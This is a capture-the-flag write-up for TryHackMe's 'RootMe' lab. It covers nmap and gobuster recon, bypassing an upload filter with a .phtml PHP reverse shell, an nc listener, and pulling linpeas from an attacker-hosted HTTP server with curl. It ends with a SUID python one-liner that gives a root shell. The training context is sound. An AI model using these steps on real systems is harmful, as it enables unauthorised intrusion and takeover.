




# [RootMe - A ctf for beginners, can you root me?](https://tryhackme.com/r/room/rrootme)

## Reconnaissance

### Nmap
Starting off by scanning with nmap, we will get some insights about open ports on the target, as well as information about the software running on these ports.
```sh
nmap -sC -sV <IP> -Pn
```
Essentially, we get two important information
- two open ports, 22 (ssh) and 80 (http)
- version information -> OpenSSH 7.6p1 Ubuntu 4ubuntu0.3, Apache httpd 2.4.29 ((Ubuntu))

Since we most likely will mainly deal with the HTTP-server, I wanted to verify the version of Apache we got back from the nmap scan. To do that, we can use a tool like `curl` for banner grabbing.
In my case, I used curl.
```sh
curl -I <IP>
```
curls output is: `Server: Apache/2.4.29 (Ubuntu)`
So far so good!

### Gobuster
Next up, I went to do a directory enumeration scan for hidden and interesting directories we may use for unauthorized access and exploitation.
```sh
gobuster dir -u <IP> -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
As a result, we get two interesting directories, `/panel/` and `/upload/`.



## Getting a shell
To get a quick overview what we have to deal with, I simply visited `<IP>/panel/` and `<IP>/upload/`.
- `<IP>/upload/` seems to list our uploaded files, meaning we can easily execute code
- `<IP>/panel/` gives us the ability to upload files to the web-server

As a consequence, I tried to upload a `.php` script to see if it is going through, because that would allow us to easily create a reverse shell. It seems like there is a filename-check denying *.php files from getting uploaded.



After changing the name to `.phtml`, the file went through!


Code-wise, I used the [php-reverse-shell template within kali linux](https://gitlab.com/kalilinux/packages/webshells/-/blob/kali/master/php/php-reverse-shell.php?ref_type=heads).

Now we just need to set up a listener on our attacker system and we have to execute the uploaded script on the victims web-server.
Listener on the attackers system:
```sh
nc -lvnp 9001
```
To execute the uploaded script, we just need to visit `<IP>/uploads` again.



We end up getting a reverse shell.
After transforming it into a tty with
```sh
python -c 'import pty; pty.spawn("/bin/bash")'
```
all we have to do to get the user flag is 
```sh
cd ~
cat user.txt
```
Output: THM{XXX_XXX_X_XXXXX}

## Privilege escalation
Before even manually searching, I just got [linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) on the web-server. Linpeas is a script that searches for possible privilege escalation paths.
To get it on the web-server, I downloaded the linpeas.sh locally, set up a python http-server on the attacker machine `python3 -m http.server 8000` and grabbed the file with curl from our shell(`curl <MY-IP>:8000/linenum.sh -o linenum.sh`).
After executing, `/usr/bin/python` looks really promising due to the SUID bit set and we can use it to gain root access.



A quick research on GTFOBins brings me to [this](https://gtfobins.github.io/gtfobins/python/), which should do the job (the SUID section). We just need to execute
```sh
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
and we end up successfully utilizing this vulnerability to gain root access.
To get the flag, we just have to
```sh
cd /root
cat root.txt
```
Output: THM{XXXXXXXXX_XXXXXXXXXX}


        
